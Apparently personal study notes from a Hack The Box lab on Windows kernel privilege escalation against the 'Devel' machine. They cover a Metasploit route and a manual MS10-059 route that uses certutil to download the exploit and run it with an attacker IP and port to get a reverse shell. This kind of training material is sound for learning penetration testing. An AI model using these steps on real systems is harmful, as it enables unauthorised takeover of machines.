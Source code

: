 --- ---

<h2>Overview</h2>

![[image.BPHLW1.png]]
![[image.O2EHW1.png]]

- The reason we need "system info" is because there are specific kernel exploits depending on the Windows build.
- If we own the Kernel, we own the system - that's what we are trying to do.

---

<h2>Escalation with Metasploit (Example - Devel HTB)</h2>

1. Background the meterpreter session2. Search and use the exploit you found by priv suggester
![[image.BPVLW1.png]]

2. Search and use the exploit you found by priv suggester
![[image.GMWMW1.png]]

3. Set the appropriate meterpreter session (and the other options)
![[image.T59QW1.png]]

4. Run and get another meterpreter session!
![[image.ILWHW1.png]]

5. Be root
![[image.1GM9V1.png]]

---

<h2>Manual Kernel Exploitation (Devel - HTB)</h2>

1. Search for the specific kernel exploit in Google
- ms10-015 doesn't work because we don't have GUI access
- so keep working through them & researching each one
- Rest of example is with MS10-059 (chimichurri exploit)

2. Downloaded the .exe to attacking machine
![[image.59C9V1.png]]

3. Set up Python HTTP server on attacking machine to host the file for victim to download

4. Go to temp folder (likely have write access here)
![[image.ZQL8V1.png]]

5. Download the file with certutil command (similar to wgeton Linux)
![[image.MLLGW1.png]]

6. Run the command with proper syntax (ms.exe <attacker_IP> <attacker_port>)
![[image.PR0HW1.png]]

7. On attacking machine, open another shell with the correct
port
![[image.EEODW1.png]]

8. Become root!
![[image.TYR6V1.png]]